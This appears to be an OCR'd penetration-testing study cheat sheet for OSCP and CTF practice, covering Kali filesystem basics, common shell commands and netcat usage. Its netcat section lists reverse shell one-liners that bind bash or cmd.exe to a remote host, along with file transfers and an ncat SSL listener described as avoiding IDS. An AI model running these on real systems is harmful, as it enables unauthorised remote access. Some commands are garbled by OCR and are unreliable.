 # The Linux Filesystem

Kali Linux adheres to the filesystem hierarchy standard (FHS),35 which provides a 
familiar and universal layout for all Linux users. The directories you will find most useful are:


• /bin - basic programs (ls, cd, cat, etc.)

• /sbin - system programs (fdisk, mkfs, sysctl, etc)

• /etc - configuration files

• /tmp - temporary files (typically deleted on boot)

• /usr/bin - applications (apt, ncat, nmap, etc.)

• /usr/share - application support and data files


# manual pages about a command 
man ls 
Most executable programs intended for the Linux command line provide a 
formal piece of documentation often called manual or man pages.36 A special program called man is used to view these pages.



# Listing Files
The ls command prints out a basic file listing to the screen. We can modify the output results with various wildcards. 
The -a option is used to display all files (including hidden ones) and the -1 option displays each file on a single line, 
which is very useful for automation.

ls -a 



# Moving Around
Linux does not use Windows-style drive letters. Instead, all files, folders, and devices are children of the root directory, 
represented by the “/” character. We can use the cd command followed by a path to change to the specified directory. 
The pwd command will print the current directory (which is helpful if you get lost) and running cd ~ will return to the home directory.







The below commands will list all .txt files to identify the flags. Used in several CTFs and useful for the OSCP challenge.
WINDOWS

(for /R ".\" %A in (*.txt) do echo %~fA %~zA) | findstr /v "echo

LINUX 

“ind . -type f -name "*.txt"
====================================

Vim cheat sheet 
https://vim.rtorr.com/
====================================

Set the Target IP Address to the $ip system variable
export ip=192.168.1.100
====================================

Find location of file
locate sbd.exe
====================================

Search through dirs in the $PATH environment variable
which sbd
====================================

Find a search for a file that contains a specific string in it’s name:
find / -name sbd\*
====================================

Show active internet connections
netstat -a
====================================

Change Password
passwd
====================================

Verify a service is running and listening
netstat -antp |grep <servicename>
====================================

Start a service
systemctl start ssh

systemctl start apache2

Have a service start at boot
systemctl enable ssh

Stop a service
systemctl stop ssh
====================================

Unzip a gz file
gunzip access.log.gz

Unzip a tar.gz file
tar -xzvf file.tar.gz
====================================

Search command history
history | grep phrase_to_search_for
====================================

Download a webpage
wget http://www.cisco.com
====================================

Open a webpage
curl http://www.cisco.com ( -v)
====================================

String manipulation

    Count number of lines in file
    wc -l index.html

    Get the start or end ohead f a file
    head index.html

    tail index.html

    Extract all the lines that contain a string
    grep "href=" index.html

    Cut a string by a delimiter, filter results then sort
    grep "href=" index.html | cut -d "/" -f 3 | grep "\\." | cut -d '"' -f 1 | sort -u

    Using Grep and regular expressions and output to a file
    cat index.html | grep -o 'http://\[^"\]\*' | cut -d "/" -f 3 | sort –u > list.txt

    Use a bash loop to find the IP address behind each host
    for url in $(cat list.txt); do host $url; done

    Collect all the IP Addresses from a log file and sort by frequency
    cat access.log | cut -d " " -f 1 | sort | uniq -c | sort -urn
====================================

Decoding using Kali

    Decode Base64 Encoded Values

    echo -n "QWxhZGRpbjpvcGVuIHNlc2FtZQ==" | base64 --decode

    Decode Hexidecimal Encoded Values
    echo -n "46 4c 34 36 5f 33 3a 32 396472796 63637756 8656874" | xxd -r -ps
====================================

Netcat - Read and write TCP and UDP Packets

    Download Netcat for Windows (handy for creating reverse shells and transfering files on windows systems): https://joncraton.org/blog/46/netcat-for-windows/

    Connect to a POP3 mail server
    nc -nv $ip 110

    Listen on TCP/UDP port
    nc -nlvp 4444

    Connect to a netcat port
    nc -nv $ip 4444

    Send a file using netcat
    nc -nv $ip 4444 < /usr/share/windows-binaries/wget.exe

    Receive a file using netcat
    nc -nlvp 4444 > incoming.exe

    Some OSs (OpenBSD) will use nc.traditional rather than nc so watch out for that...

    whereis nc
    nc: /bin/nc.traditional /usr/share/man/man1/nc.1.gz

    /bin/nc.traditional -e /bin/bash 1.2.3.4 4444

    Create a reverse shell with Ncat using cmd.exe on Windows
    nc.exe -nlvp 4444 -e cmd.exe

    or

    nc.exe -nv <Remote IP> <Remote Port> -e cmd.exe

    Create a reverse shell with Ncat using bash on Linux
    nc -nv $ip 4444 -e /bin/bash

    Netcat for Banner Grabbing:

    echo "" | nc -nv -w1 <IP Address> <Ports>

Ncat - Netcat for Nmap project which provides more security avoid IDS

    Reverse shell from windows using cmd.exe using ssl
    ncat --exec cmd.exe --allow $ip -vnl 4444 --ssl

    Listen on port 4444 using ssl
    ncat -v $ip 4444 --ssl


